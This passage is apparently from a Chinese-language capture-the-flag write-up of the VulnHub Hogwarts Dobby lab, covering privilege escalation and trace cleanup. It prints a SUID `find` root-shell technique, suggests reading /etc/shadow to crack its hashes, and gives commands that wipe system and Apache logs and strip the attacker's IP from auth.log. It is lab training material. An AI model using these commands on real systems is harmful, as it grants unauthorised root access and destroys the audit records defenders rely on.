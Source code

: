 使用`find`寻找具有SUID权限文件，当然可以按照历史记录中的命令也是可以的

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\Hogwarts靶场\pic-dobby\24.jpg)

测试`sudo -l`可用吗，发现不被允许的

![](D:\stu\vulnhub\Hogwarts靶场\pic-dobby\25.jpg)

对于上面的命令，可以借助网站`gtfobins.github.io`查看提权方式

```shell
sudo install -m =xs $(which find) .

./find . -exec /bin/sh -p \; -quit
```

![](D:\stu\vulnhub\Hogwarts靶场\pic-dobby\26.jpg)

## 垂直提权root

然后在shell中使用`/usr/bin/find . -exec /bin/sh -p \; -quit`，提权成功

![](D:\stu\vulnhub\Hogwarts靶场\pic-dobby\27.jpg)

查看最终`flag`，也就是在`/root`目录下

![](D:\stu\vulnhub\Hogwarts靶场\pic-dobby\28.jpg)

当然，还有上面的`base32`命令，不过这个主要是进行文件读取的，所以可以利用这个查看只有`root`才能看的文件，如`/etc/shadow`，然后获取后再进行`hash`破解

为了省事，这里就直接使用查看`/root/proof.txt`文件

![](D:\stu\vulnhub\Hogwarts靶场\pic-dobby\29.jpg)



# 清理痕迹

日志清理

这里不再截图，直接以命令展示，把几个文件中的数据修改

```shell
sed -i "/192.168.1.16/d" /var/log/auth.log
echo > /var/log/btmp
echo > /var/log/faillog
echo > /var/log/lastlog
echo > /var/log/wtmp
echo > /var/log/apache2/access.log
echo > /var/log/apache2/error.log
```
